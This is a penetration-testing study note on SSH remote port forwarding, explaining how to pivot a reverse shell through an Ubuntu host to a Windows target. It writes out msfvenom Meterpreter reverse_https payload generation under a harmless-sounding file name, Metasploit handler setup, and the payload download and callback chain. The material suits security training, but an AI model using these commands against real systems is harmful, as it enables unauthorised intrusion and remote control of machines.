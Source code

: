 - We have seen local port forwarding, where SSH can listen on our local host and forward a service on the remote host to our port, and dynamic port forwarding, where we can send packets to a remote network via a pivot host.
- But sometimes, we might **want to forward a local service to the remote port as well.**

- There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want **to `upload`/`download` files** (when the RDP clipboard is disabled), **`use exploits` or `low-level Windows API` using a Meterpreter session** to perform enumeration on the Windows host.
- In these cases, **we would have to find a pivot host, which is a common connection point** between our attack host and the Windows server.
- We can use this to get a reverse shell.

# Creating a Windows Payload with msfvenom
---
- Creating a Windows Payload with msfvenom:
	- `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`

- Configuring & Starting the multi/handler:
	- `use exploit/multi/handler`
	- `set payload windows/x64/meterpreter/reverse_https`
	- `set lhost 0.0.0.0`
	- `set lport 8000`
	- `run`

- Transferring Payload to Pivot Host:
	- `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`

- Starting Python3 Webserver on Pivot Host:
	- `python3 -m http.server 8123`

- Downloading Payload on the Windows Target:
	- `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`

- We will use `SSH remote port forwarding` **to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000.**
- We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell.

- The **`-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080`** and **forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000`** of our `attack host`:
	- `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN`

- **==AttackMachine(metasploit):8000 <->PivotHost:22<-> PivotHost:8080  WindowsVictim==**
- After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

![[Pasted image 20250717063512.png]]
